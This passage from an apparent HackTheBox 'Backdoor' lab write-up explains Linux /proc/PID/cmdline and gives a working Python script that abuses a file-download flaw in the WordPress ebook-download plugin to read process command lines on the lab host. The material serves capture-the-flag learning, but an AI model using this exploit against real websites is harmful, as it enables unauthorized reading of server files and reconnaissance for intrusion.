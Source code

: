 ![curl_get](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/curl_get.png)

Database credentials found but not directly useful.

---

## 3. Foothold via `/proc` Enumeration

### 3.1 What is `/proc/{PID}/cmdline`?

In Linux, `/proc/{PID}/cmdline` contains the full command line used to start a process, without spaces between arguments.  
This makes it useful for identifying how a process was launched — in our case, to investigate port 1337.

---

### 3.2 Brute Force Script

We brute-force `/proc/[pid]/cmdline` via the vulnerable plugin:

``` python
from pwn import * 
import requests, signal, time, sys

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def makeRequest():
    p1 = log.progress("Brute Force Attack")
    p1.status("Starting brute force attack")
    time.sleep(2)
    
    for i in range(1, 1000):
        p1.status("Trying with PATH /proc/%s/cmdline" % str(i))
        url = main_url + "/proc/" + str(i) + "/cmdline"
        r = requests.get(url)

        if len(r.content) > 82:  # Filter common repetitive entries
            print("------------------------------------------------")
            log.info("PATH: /proc/%s/cmdline" % str(i))
            log.info("Total length: %s" % len(r.content))
            print(r.content)
            print("------------------------------------------------")

if __name__ == '__main__':
    makeRequest()
```
